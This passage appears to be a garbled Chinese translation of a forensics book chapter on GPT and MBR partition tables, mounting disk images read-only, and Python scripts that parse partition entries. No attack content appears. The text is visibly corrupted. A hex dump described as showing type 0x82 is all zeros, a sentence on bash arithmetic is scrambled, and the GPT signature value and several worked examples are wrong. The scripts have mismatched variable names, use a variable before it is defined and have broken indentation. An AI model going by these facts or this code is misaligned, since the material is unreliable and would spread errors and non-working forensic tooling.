BIOS 启动过程已被统一扩展固件接口（UEFI，通常简称 UEFI）启动过程所取代。UEFI（读音为 "ooh-fee"）启动允许计算机直接以 64 位模式启动。今天所有的 64 位计算机都使用 UEFI 而不是 BIOS 进行启动，尽管它们支持从基于 MBR 的驱动器遗留启动。这种遗留支持主要用于允许从 DVD 和 USB 驱动器等可移动介质启动。

为了配合 UEFI，还创建了指定分区的新方法。这种新方法为每个分区添加了全局唯一标识符（GUID）。GUID 存储在 GUID 分区表（GPT）中。GPT 有空间容纳 128 个分区。除了主 GPT 之外，磁盘末尾（编号最高的逻辑块）还存储了一个辅助 GPT，以减轻 GPT 中的坏道导致磁盘不可读的概率。

使用 GUID 分区的驱动器从保护性 MBR 开始。该 MBR 有一个覆盖整个磁盘的条目，分区类型为 `0xEE`。不知道如何处理 GPT 的遗留系统也不知道如何处理类型为 `0xEE` 的分区，因此它们将忽略整个驱动器。这比在驱动器显示为空或未格式化时被意外格式化要好。

正如之前提到的，现代系统使用逻辑块寻址（LBA）。保护性 MBR 存储在 LBA0。主 GPT 从 LBA1 中的头文件开始，随后是 LBA2 到 LBA34 之间的 GPT 条目。每个 GPT 条目需要 128 字节。因此，每个标准的 512 字节块有四个条目。虽然现在的 GPT 条目是 128 字节，但规范允许未来使用更大的条目（大小在 GPT 头文件中指定）。块的长度可能是 512 字节，但不应对此做出假设。辅助 GPT 头文件存储在最后一个 LBA，辅助 GPT 条目存储在先前的 32 个扇区中。基于 GPT 的驱动器布局如图 5.3 所示。



图 5.3
使用 GUID 分区的驱动器布局。

GPT 头文件格式如表 5.3 所示。在尝试挂载使用 GUID 分区的驱动器镜像时，应检查此头文件，以确保在表中所示默认值发生变化时任何脚本都具有前瞻性。

表 5.3. GUID 分区表头文件格式。

| 偏移量 | 长度 | 内容 |
| :--- | :--- | :--- |
| 0 (0x00) | 8 字节 | 签名 ("EFI PART" 或 0x54452415020496465) |
| 8 (0x08) | 4 字节 | 二进制编码码格式的版本（版本 1.0 = 0x00 0x00 0x01 0x00） |
| 12 (0x0C) | 4 字节 | 头文件大小（字节）（目前为 92 字节） |
| 16 (0x10) | 4 字节 | CRC32 校验和 |
| 20 (0x14) | 4 字节 | 预留；必须为零 |
| 24 (0x18) | 8 字节 | 当前 LBA（此头文件所在位置） |
| 32 (0x20) | 8 字节 | 备份 LBA（另一个头文件所在位置） |
| 40 (0x28) | 8 字节 | 分区的第一个可用 LBA |
| 48 (0x30) | 8 字节 | 分区的最后一个可用 LBA |
| 56 (0x38) | 16 字节 |  GUID |
| 72 (0x48) | 8 字节 | 分区条目数组的起始 LBA |
| 80 (0x50) | 4 字节 | 数组中分区条目的数量 |
| 84 (0x54) | 4 字节 | 单个分区条目的大小（通常为 128） |
| 88 (0x58) | 4 字节 | 分区数组的 CRC32 校验和 |
| 92 (0x5C) | — | 预留；块剩余部分必须零 |

每个条目的格式如表 5.4 所示。这些条目中属性字段的格式如表 5.5 所示。与用一个字节指示分区类型的 MBR 分区不同，基于 GPT 的分区具有 16 字节的 GUID。

通过将它们包含在 $) 中执行，你可以通过将数学运算包含在 ($ 中在命令行中进行数学计算。

使用我们的 bash shell 技巧，正确的命令是 `sudo mount -o ro,noatime,loop,offset=$((starting_sector * 512 )) <image_file=<mount point directory>`。从图 5.4 挂载镜像的一系列命令如图 5.5 所示。



### 图 5.5

从扩展分区中挂载单个分区。

如果你的镜像包含扩展分区怎么办？步骤完全相同。带有扩展分区的镜像如图 5.6 所示。请注意，`fdisk` 会将扩展分区内部的相对扇区地址转换为整个镜像中的绝对地址。同样注意的是，扩展分区内的交换分区从分区的第二个扇区开始。第一个扇区被扩展分区的 mini-MBR 使用，第二个扇区只是填充，以确保交换分区在偶数扇区上开始。

图 5.6 镜像中扩展分区的 mini-MBR 如图 5.7 所示。图中突出了分区类型 `0x82`。回想起 Linux 交换分区的类型代码。注意第二个 MBR 条目是空白的，表示该分区内部没有嵌套扩展分区。使用 `dd` 命令生成了此图。


`dd if=/dev/sdb count=1 bs=512 skip=22 of=output.bin`

total bytes: 512 (0.50 KB), 512 bytes/s,1.00 MB/s

1+0 records of 512 B/512 B, 512 bytes copied,1. 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

FIGURE 5.6

一个带有扩展分区的镜像。

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

FIGURE 5.7

扩展分区的 mini-MBR。高亮字节是分区类型 `0x82`，表示这是一个交换分区。注意第二个条目是空白的，表示该分区下没有嵌套的扩展分区。

从镜像中快速查看单个扇区的方法是执行命令 `dd skip=<sector number> bs=<sector size> count=1 if=<image file> xxd`。生成图 5.7 的命令是 `dd skip=33556478 bs=512 count=1 if=pentester-academy-subject1-flat.vmdk xxd`。重要的是，`dd` 使用块（默认块大小为512），而 `mount` 使用的是不同的方式。这就是为什么我们使用 `dd` 时不需要进行任何数学计算。

所需的命令以及图 5.6 中主分区的运行如图 5.8 所示。注意，我的 Ubuntu 系统自动弹出了文件浏览器窗口。这是一个可以使用本章前面节描述的 `udev` 规则进行自定义的行为示例。



FIGURE 5.8

从命令行挂载镜像中的 Linux 分区。

如果你的目标系统使用 GUID 分区表 `GPT` 呢？对这类系统运行 `fdisk` 的结果如图 5.9 所示。显示的唯一分区覆盖了整个磁盘，类型为 `0xEE`。这就是本章前面讨论的保护性 MBR。注意 `fdisk` 显示了一个警告，包含了为 GPT 驱动器运行的正确工具。

运行 `fdisk -l /dev/sda`
WARNING: GPT partition table detected! fdisk supports GPT.

设备显示的逻辑大小小于物理扇区大小。与扇区对齐是可选的，但建议这样做。

# 它有什么用？

## 脚本语言或编程语言

在本书中，你会看到我将 Python 称为一种脚本语言。有些人可能会认为它是一门编程语言。哪种说法正确？两者都是正确的。在我看来，脚本语言是一种允许你快速开展工作的解释型语言。Python 确实满足这些标准。

对我而言，编程语言是那些用于创建大型程序和软件系统的工具。确实有人使用 Python 实现了这一点。然而，我认为当性能成为问题，且同一个程序在不进行任何代码修改的情况下需要运行多次时，Python 并不是最佳选择。我确信，任何运行过最新版本 Metasploit 的人都会同意在解释型语言中运行大型程序可能是非常痛苦的。

你可能会问我们为什么要切换到 Python。这是一个很好的问题。使用 Python 来完成这项任务有几个原因。首先，我们不再仅仅是运行程序和来回处理。相反，我们正在读取文件、解释它们、执行计算，然后运行程序。其次，我们正寻求构建一个代码库，供我们的调查中使用。拥有可以解析 MBR 和 GPT 数据的 Python 代码，在未来可能会非常有用。

## 基于 MBR 的主分区

我们将从最简单的情况开始，即基于 MBR 驱动的主分区。为了简单起见，我将挂载代码分成了三个脚本。如果你愿意，可以随时将它们合并。毕竟它是开源的。以下脚本将挂载来自基于 MBR 的镜像文件的主分区。

```python
#!/usr/bin/python
#
#mount-image.py
# 这是一个简单的 Python 脚本，将
# 尝试从镜像文件中挂载分区。
### 镜像以只读方式挂载。
#
### 由 Polstra 博士 (@ppolstra) 开发
### 用于 PentesterAcademy.com
import sys
import os.path
import subprocess
import struct
```

MbrRecord: 从主引导记录 `MBR` 中解码分区记录
用法: `rec = MbrRecord(sector, partno)` 其中
`sector` 是包含 MBR 的 512 字节或更大的扇
`partno` 是感兴趣的分区编号 0-3
`rec.printPart()` 打印分区信息

```python
class MbrRecord():
    def __init__(self, sector, partno):
        self.partno = partno
        # 第一条记录位于偏移量 446，且记录为 16 字节
        offset = 446 + partno * 16
        self.active = False
        # 第一个字节 == 0x80 表示激活（可启动）
        if sector[offset] == '\x80':
```


```python
self.active = True

self.type = ord(sector[offset+4])

self.empty = False

# 分区类型 == 0

if self.type == 0:

    self.empty = True

# 扇区值为 32 位，并以小端序格式存储

self.start = struct.unpack('<I', sector[offset + 8: \
    offset + 12])[0]

self.sectors = struct.unpack('<I', sector[offset + 12: \
    offset + 16])[0]
```

```python
def printPart(self):

    if self.empty == True:

        print("<empty>")

    else:

        outstr = ""

        if self.active == True:

            outstr += "Bootable:"

        outstr += "Type " + str(self.type) + ":"

        outstr += "Start " + str(self.start) + ":"

        outstr += "Total sectors " + str(self.sectors)

        print(outstr)
```

```python
def usage():

    print("usage " + sys.argv[0] + \
        "<image file>\n尝试从镜像文件中挂载分区")
```

```python
exit(1)

def main():

    if len(sys.argv) < 2:

        usage()

    # 读取第一个扇区

    if not os.path.isfile(sys.argv[1]):

        print("File " + sys.argv[1] + " 无法打开读取")

        exit(1)

    with open(sys.argv[1], 'rb') as f:

        sector = str(f.read(512))

        if sector[510] == "\x55" and sector[511] == "\xaa":

            print("看起来像是一个 MBR 或 VBR")

        # 如果是 MBR，字节 446, 462, 478, 和 494 必须是 0x80 或 0x00

        if (sector[446] == "\x80" or sector[446] == "\x00") and \
            (sector[462] == "\x80" or sector[462] == "\x00") and \
            (sector[478] == "\x80" or sector[478] == "\x00") and \
            (sector[494] == "\x80" or sector[494] == "\x00"):

            print("必须是一个 MBR")

            parts = [MbrRecord(sector, 2), MbrRecord(sector, 3)]

            for p in parts:

                p.printPart()

                if not p.empty:

                    notupParts = [0x05, 0x0f, 0x85, 0x91, 0x9b, 0xc5, 0xe4, 0xee]

                    if p.type in notupParts:

                        print("抱歉，GPT 和扩展分区此脚本并不支持!")

                else:

                    mountpath = '/media/part%s' % str(p.partno)

                    # 如果相应的目录不存在，则创建它

                    if not os.path.isdir(mountpath):

                        subprocess.call(['mkdir', mountpath])

                    mountopts = ['loop,ro,noatime,offset=%s' % \
                        str(p.start * 512)]

                    subprocess.call(['mount', '-o', \
                        mountopts, sys.argv[1], mountpath])

        else:

            print("看起来是一个 VBR！正在尝试挂载")

            if not os.path.isdir('/media/part1'):

                subprocess.call(['mkdir', '/media/part1'])
```

```python
subprocess.call(['mount', '-o', 'loop,ro,noatime', \
sys.argv[1], '/media/part1'])
if __name__ == "__main__":
    main()
```

目标分区的 MBR 偏移量为 `446 + partno * 16`，因为第一条记录位于偏移量 `446`，每条记录长度为 `16` 字节。

接下来我们检查分区条目中的第一个字节是否为 `0x80`，这表示分区处于激活状态（可启动）。Python 与许多其他语言一样，可以将字符串视为数组。同样，与大多数语言一样，索引是从零开始的。`==` 运算符用于检查相等性，而 `=` 运算符用于赋值。Python 中的单个十六进制值可以用包含 `\x` 前缀的紧凑字符串表示。例如，`\x8080`。在这些之后，我们看到以下代码设置了一个名为 `Active` 的类属性值，如果分区条目中的第一个字节是 `0x80`，则将该值重置为 `True`。注意 Python 使用缩进来确定在语句评估为 `True` 时执行的内容。

```python
self.active = False
### first byte == 0x80 means active (bootable)
if sector[offset] == '\x80':
    self.active = True
```

在解释激活标志后，`MbrRecord` 构造函数获取分区类型并将其作为数值（而非紧凑字符串）存储在这一行：`self.type = ord(sector[offset+4])`。`ord(<single字符>)` 用于将紧凑字符串转换为整数值。接着检查下一个字节是否等于零。如果是，则将 `empty` 的类属性值设置为 `True`。

最后，从 MBR 中提取起始值和总长度值，并将它们存储在相应的类属性中。这两行代码中发生了很多操作。如果将其拆解，会更容易理解。我们从语句 `sector[offset+8]` 开始：在 Python 术语中，这被称为数组切片（slice）。数组无非是一个值的列表，用从零开始的整数进行索引。因此 `myArray[0]` 是 `myArray` 中的第一个项，`myArray[1]` 是第二个，以此此类推。在 Python 中指定子数组（切片）的语法是 `myArray[<切片的起始索引:结束索引>]`。例如，如果 `myArray` 包含 "This is the end, my one true friend!"，那么 `myArray[8:15]` 将等于 "end"。

构造函数最后两行中的切片是紧凑字符串格式的 32 位小端序整数。如果你熟悉“小端序”（little endian）这个术语，它指的是计算机存储多字节值的方式。几乎所有计算机在进行取证存储时都可能以小端序格式存储值，这意味着字节从低位到高位存储。例如，值 `0xAABBCCD` 在紧凑字符串格式下表示为 `\xCD\xCC\xBB\xAA`（此处为示例）。来自 `struct` 库的 `unpack` 函数用于将紧凑字符串转换为数值。


记得 `struct` 库是我们在文件顶部导入的库之一。为了让 Python 找到这些已导入库中的函数，你必须在函数名前前加上一个点。这就是为什么在我们的脚本中，`unpack` 函数被调用为 `struct.unpack`。`unpack` 函数接受一个格式字符串和一个紧凑字符串作为输入。我们的格式字符串 `'<I'` 指定了一个小端序格式的无符号整数。输入到 `unpack` 函数的格式字符串可以包含多个字符，允许 `unpack` 一次转换多个值。因此，`unpack` 函数返回一个数组。这就是为什么你在最后两行末尾看到索引，因为我们只需要返回数组中的第一个项（它本应该是唯一的！）。当你将其拆解，很容易看出 `self.start = struct.unpack('<I', sector[offset + 8: offset + 12])[0]` 获取了一个包含小端序格式字符串 `sector` 的 4 字节紧凑字符串，使用 `unpack` 将其转换为数值，然后将结果存储在名为 `start` 的类属性中。

`MbrRecord` 中的 `Print` 函数比构造函数更容易理解。这个第一个函数检查分区是否为空；如果是，它打印 "empty"。如果不为空，无论其是否可启动，都会显示其类型、起始扇区和总扇区。

该脚本创建的用法与我们过去在 shell 脚本中所做的非常相似。注意，此函数没有缩进，因此它不是 `MbrRecord` 类的一部分。该函数确实利用了导入的 `os` 库，通过 `sys.argv[0]` 获取此脚本的，这在我们的 shell 脚本中等于 `$0`。

我们定义了一个 `main` 函数。与我们的 shell 脚本一样，我们首先检查传递了相应数量的命令行参数，如果不是，则显示消息并退出。注意这里的测试是针对少于两个命令行参数的情况。总会有一个命令行参数，即正在运行的脚本名称。换句话说，`if len(sys.argv) < 2:` 只在你没有传递任何参数时才为真。

一旦我们确认你传递了至少一个参数，我们就会检查文件是否存在且可读，如果不是，则在以下代码行中显示错误并退出：

```python
if not os.path.isfile(sys.argv[1]):
    print("File " + sys.argv[1] + " cannot be opened for reading")
    exit(1)
```

如果你不是 Python 程序员（目前还），接下来的两行可能看起来有点奇怪。这种结构是 Python 中打开和读取文件的首选方式，因为它是简洁的并确保文件会被整洁地关闭。某些使用 Python 的读者可能不熟悉这种方法，因为它的出现还不到十年。

```python
with open(sys.argv[1], 'rb') as f:
    sector = str(f.read(512))
```

一旦我们得到了分区，就会通过下面的 `for` 循环遍历列表：

```python
for p in parts:
    p.printPart()
if not p.empty:
    notsupParts = [0x05
```

让我们来拆解这个 `for` 循环。`for p in parts:` 这一行启动了一个循环块。这导致 Python 解释器遍历列表，并在每次迭代中将变量 `p` 指向当前项。通过使用 `p.printPart()` 开始处理分区。如果条目不为空，我们就继续尝试挂载它。

我们创建了另一个列表 `notsupParts`，并用此脚本不支持的分区类型填充它。接下来，我们检查分区的类型是否在列表中，如果在列表中，我们就打印一条抱歉的消息。否则（`else:`），我们继续我们的挂载过程。

`mountpath = '/media/part%s' % str(p.part)` 这一行使用了 Python 构造来构建通用格式，该构造的格式是"某些包含占位符的字符串" % 字符串列表或元组。例如，`'Hello %s, My name is %s' ('Bob', 'Phil')` 会求值为字符串 `'Hello Bob, My name is Phil'`。在这一行中，我们将 `mountpath` 赋值为 `'/media/part0'`, `'/media/part1'`, `'/media/part2'` 或 `'/media/part3'`。

`if not os.path.isdir(mountpath)` 这一行检查挂点目录是否存在。如果不存在，将在下一行创建它。下一行使用 `subprocess.call()` 调用外部程序或命令。此函数期望一个包含要运行的程序及其任何参数的列表。

在下一行，再次使用字符串替换构造来创建一个带有挂载命令选项的字符串，以完成相应的偏移量。注意，使用 `str(p.start * 512)` 是先计算此偏移量，并根据 `%` 运算符的要求将其从数字转换为字符串。最后，我们使用 `subprocess.call()` 来运行 `mount` 命令。

脚本中唯一还需要解释的内容是最后两行。`if __name__ == "__main__":` 是 Python 脚本编写中常用的常用技巧。如果执行了该脚本，变量 `__name__` 将设置为 "main"。但是，如果仅仅是导入该脚本，此变量就不会被设置。这允许创建既可以运行又可以导入其他脚本的 Python 脚本（从而允许代码复用）。

如果你是 Python 初手，在过完我们的第一个脚本后，你可能想在这里休息一下。如果你仍然对此脚本的工作原理有些不确定，你可能想重新阅读这一节。请放心，随着我们继续开发新脚本，事情会变得更简单的。

针对 Windows 系统镜像文件运行我们的脚本的结果如图 5.12 所示。图 5.13 描述了针对 Ubuntu 14.04 系统的镜像运行脚本时发生的情况。



图 5.12

针对 Windows 系统镜像文件运行 Python 挂载脚本。



图 5.13

针对 Ubuntu 14.04 系统的镜像文件运行 Python 挂载脚本。

### 基于 MBR 的扩展分区

以下脚本将尝试挂载上一个脚本跳过的扩展分区中的任何内容：

```python
#!/usr/bin/python
#
### mount-image-extpart.py
#
# 这是一个简单的 Python 脚本，它将
# 尝试挂载镜像文件中扩展
# 分区内部的分区。
### 镜像以只读方式挂载。
#
### 由 Phil Polstra 博士 (@ppolstra) 开发
### 适用于 PentesterAcademy.com
import sys
import os.path
import subprocess
import struct
"""
```

Class `MbrRecord`：从主引导记录 (MBR) 中解码分区记录

```python
"""
```

用法: `rec = MbrRecord(sector, partno)` 其中 `sector` 是包含 MBR 的 512 字节或更大的扇区

`partno` 是感兴趣的分区号 0-3

`rec.printPart()` 打印分区信息

```python
"""
class MbrRecord:

    def __init__(self, sector, partno):

        self.partno = partno

        # 第一条记录位于偏移量 446，且记录每条 16 字节

        offset = 446 + partno * 16

        self.active = False

        # 第一字节 == 0x80 表示活动（可启动的）

        if sector[offset] == '\x80':

            self.active = True

        self.type = ord(sector[offset+4])

        self.empty = False

        # 分区类型 == 0 表示它是空闲

        if self.type == 0:

            self.empty = True

        # 扇区值为 32 位的，并以小端格式存储

        self.start = struct.unpack('<I', sector[offset + 8 :offset + 12])[0]

        self.sectors = struct.unpack('<I', sector[offset + 12 :offset + 16])[0]

    def printPart(self):

        if self.empty == True:

            print("<empty>")

        else:

            outstr = ""
```


```python
if self.active:
    outstr += "Bootable:"
outstr += " Type " + str(self.type) + ":"
outstr += "Start " + str(self.start) + ":"
outstr += "Total sectors " + str(self.sectors)
print(outstr)
```

```python
def usage():
    print("usage " + sys.argv[0] + " <image file>\nAttempts to mount partitions from image file")
    exit(1)

def main():
```

```python
if len(sys.argv) < 2:
    usage()
# 扩展分区将被处理
if not os.path.isfile(sys.argv[1]):
    print("File " + sys.argv[1] + " cannot be opened")
    exit(1)
with open(sys.argv[1], 'rb') as f:
    # 读取扇区
    sector = f.read(512)
    # 如果看起来是 MBR
    if sector[446] == "\x80":
        print("Looks like MBR")
        parts = [MbrRecord(sector, 0), MbrRecord(sector, 1), MbrRecord(sector, 2), MbrRecord(sector, 3)]
        for p in parts:
            p.printPart()
            # 如果不是空的
            if not p.empty:
                # 如果是扩展分区
                if p.type in extParts:
                    print("Found an extended partition at sector %s" % str(p.start))
                    bottomOfole = False
                    extendPartStart = p.start
                    extNo = 5
                    while not bottomOfole:
                        # 获取链式 MBR
                        f.seek(extendPartStart * 512)
                        llSector = f.read(512)
                        extParts = [MbrRecord(llSector, 0), MbrRecord(llSector, 1)]
                        # 尝试挂载第一个分区
                        if extParts[0].type in swapParts:
                            print("Skipping partition")
                        else:
                            mountpath = '/media/%s' % str(extNo)
                            if not os.path.isdir(mountpath):
                                subprocess.call(['mkdir', mountpath])
                            mountopts = 'loop,ro,noatime,offset=%s' % \
                                ((extParts[0].start + extendPartStart) * 512)
                            print("Attempting to mount extend partition %s at sector %s" % \
                                hex(extParts[0].type), \
                                str(extendPartStart + extParts[0].start))
                            subprocess.call(['mount', '-o', mountopts, \
                                sys.argv[1], mountpath])
                            if extParts[1].type == 0:
                                bottomOfole = True
                                print("Found the bottom of the rabbit hole")
                        extendPartStart += extParts[1].start
                        extNo += 1

if __name__ == "__main__":
    main()
```

接下来，我们将 mini-MBR 中的前几个条目读取到列表 `extParts` 中。如果 `extParts[0]` 是交换分区，我们则跳过它。否则，我们尝试挂载它。编码方法与上一个脚本中的相同。

然后，我们检查 mini-MBR 中的第二个条目（`extParts[1]`）。如果其类型为 `00x`，则表示没有扩展分区，我们的工作完成。如果是这种情况，则将嵌套分区的起始扇区赋值给 `extendPartStart` 并递增 `incrementPartNo`，以便为下一次循环迭代做好正确设置。

### GPT 分区

